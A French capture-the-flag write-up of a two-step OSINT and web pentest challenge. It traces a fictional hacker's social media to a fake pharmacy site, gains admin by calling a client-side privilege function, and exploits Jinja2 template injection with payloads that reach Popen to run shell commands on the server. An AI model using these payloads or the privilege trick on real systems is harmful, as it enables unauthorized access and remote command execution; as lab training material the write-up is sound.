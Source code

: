 # RedTeam
#### _OSINT + Pentest_

### Étape n°1

**Énoncé** : _I setup a website to challenge your skill as a pentester
Find me over the Internet as I stand by the nickname Zer0DayH4ckz0r
If you reach my website you should be able to gain control of a server
You will then need to go deeper and find a pivot
Finally if your are good enough you will send me my own password as a NTLM hash
Good luck!_

Notre objectif est donc de trouver le site de ce fameux Zer0DayH4ckz0r, on tape alors ce pseudo sur Google. On tombe sur le [compte Twitter](https://twitter.com/Zer0DayH4ckz0r) du "hacker". En descandant tout en bas de la liste de ses tweets, on tombe sur ce message : 

![](twitter.png)

On a donc le [compte Github](https://github.com/Zer0DayH4ckz0r) du hacker. On regarde ses dépôts et on remarque qu'ils viennent tous de dépôts externes. En regardant les commits du hacker sur ses dépôts, on tombe sur quelque chose de très intéressant :

![](github.png)

On s'empresse d'essayer ces identifiants sur Instagram mais ça ne fonctionne pas, on tape alors le pseudo du hacker sur Instagram et on tombe sur son [compte](https://www.instagram.com/zer0dayjld/) : 

![](instagram.png)

On regarde toutes ses photos et leur description mais il n'y a rien d'intéressant aux premiers abords. En regardant de plus près, on remarque une photo sur laquelle on peut voir des écrans :

![](photo_insta.png)

On tape le nom "PharmaHealthyCat" sur Google et on tombe sur un [compte Linkedin](https://www.linkedin.com/company/pharmahealthycat/about/). En lisant sa description, on comprend vite que c'est un faux compte, ce qui montre que l'on est sur la bonne piste. On se rend sur le site web de cette "pharmacie". En allant dans la catégorie "Blog", on tombe sur le post suivant : 
```Flag```
```Good Job the flag is RUNXe04xY2tONG1lXzFzX0cwT2RfSWZfWTB1X0Qwbid0X1RocjB3fQ==```

**FLAG** : ECW{N1ckN4me_1s_G0Od_If_Y0u_D0n't_Thr0w}

### Étape n°2

**Énoncé** : _You found the website, this is a good start,
Now you need to get in!_

![](website.png)

En regardant le code source de toutes les pages du site, on tombe sur un fichier javascript très intéressant, et notamment ce bout de code :
```js
function submit3(id_user) { // eslint-disable-line no-unused-vars
  $.ajax({
    type: 'POST',
    url: '/home/users',
    dataType: 'json',
    data: {"id_user":id_user},
    success: function(result) {
      if (result == 'duplicate') {
        const message = 'You are not admin man !';
        alertify.notify(message, 'error', 5);
      } else {
        alertify.notify('User privileges successfuly changed', 'success', 5);
        window.location.reload(true);
      }
    },
    error: function(result) {
      const message = 'You are not admin man !';
      alertify.notify(message, 'error', 5);
    },
  });
}
```
Cette fonction est particulièrement intéressante car elle permet de modifier les privilèges d'un utilisateur. On trouve aussi, grâce à l'outil [dirb](https://www.kali.org/tools/dirb/) le path ```/home/users```, qui permet de récupérer la liste des utilisateurs. En regardant dans le code source, on trouve notre identifiant : 
![](id.png)
Il ne nous reste plus qu'à utilisater la console de notre navigateur et d'appeler la fonction submit3 avec notre identifiant pour devenir administrateur.

Une fois administrateur, une nouvelle partie du site nous est proposée : 

![](admin.png)

Après avoir regarder les sections "Add Blog Post" et "Modify Users" qui ne donnent rien, on s'intéresse à "Template Builder". On identifie une SSTI (Server Side Template Injection) en tapant {{7*7}} qui s'exécute sur le template créé. On identifie la technologie utilisée grâce à cette image : 

![](ssti.png)

Il s'agit de Jinja2. On injecte alors du code permettant de récupérer des informations puis de lire le flag.
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("ls",stdout = -1, shell=True).communicate() }}
{{ ''.__class__.__mro__[1].__subclasses__()[417]("cat flag.txt",stdout = -1, shell=True).communicate() }}
```
La première ligne sert à connaître l'index de la classe ```Popen``` dans la liste des classes de Python. La deuxième nous permet de lancer la commande ```ls``` sur la machine cible et la troisième nous permet de lire le flag.

**FLAG** : ECW{EaSy_P4rt_D0ne_C0ngratz}

**Il y avait pour ce challenge deux autres parties que je n'ai pas pu finir avant la fin de l'épreuve.**



